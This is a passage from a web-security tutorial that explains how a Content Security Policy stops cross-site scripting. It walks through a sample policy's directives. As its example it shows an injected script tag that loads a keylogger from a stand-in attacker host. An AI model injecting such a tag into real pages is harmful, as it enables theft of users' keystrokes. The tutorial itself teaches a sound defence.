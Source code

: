 Let's revisit our XSS attack scenario. An attacker manages to inject the following into your page:

```html
<script src="https://evil-hacker-cdn.com/keylogger.js"></script>
```

Without a CSP, the browser will see this tag, request the script from `evil-hacker-cdn.com`, and execute it, potentially stealing user keystrokes.

Now, imagine your server sent the following HTTP header along with the page:

`Content-Security-Policy: script-src 'self';`

This header tells the browser: "For this page, you are only allowed to execute scripts that come from my own domain (`'self'`)."

When the browser encounters the malicious script tag, it will check the `src` against the policy. Since `evil-hacker-cdn.com` is not `'self'`, the browser will **refuse to load or execute the script**. The attack is stopped dead, even though the XSS vulnerability exists in your HTML.

## Deep Dive

A CSP is a collection of "directives" that control different types of resources. It is delivered to the browser via the `Content-Security-Policy` HTTP header.

Here is a more realistic, moderately strict policy for a modern React application:

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' https://www.google-analytics.com;
  style-src 'self' 'unsafe-inline' https://fonts.googleapis.com;
  img-src 'self' data: https://images.my-cdn.com;
  font-src 'self' https://fonts.gstatic.com;
  connect-src 'self' https://api.my-app.com;
  frame-ancestors 'none';
  form-action 'self';
  base-uri 'self';
```

Let's break down some key directives:

- **`default-src 'self'`**: A fallback policy. Any resource type not explicitly defined can only be loaded from the application's own origin. This is a crucial starting point.
- **`script-src 'self' https://www.google-analytics.com`**: Scripts can only be loaded from our origin or Google Analytics.
- **`style-src 'self' 'unsafe-inline' ...`**: Stylesheets can be loaded from our origin or Google Fonts. The `'unsafe-inline'` keyword is often needed for CSS-in-JS libraries that inject styles directly into the DOM. This weakens the policy, and more advanced setups use a "nonce" to allow specific inline styles.
- **`connect-src 'self' https://api.my-app.com`**: Restricts which endpoints the browser can connect to via `fetch`, `XMLHttpRequest`, or WebSockets. This can prevent malicious scripts from exfiltrating data to an attacker's server.
- **`frame-ancestors 'none'`**: Prevents your site from being embedded in an `<iframe>` on another site, which is the primary defense against "clickjacking" attacks.

### Implementing a CSP
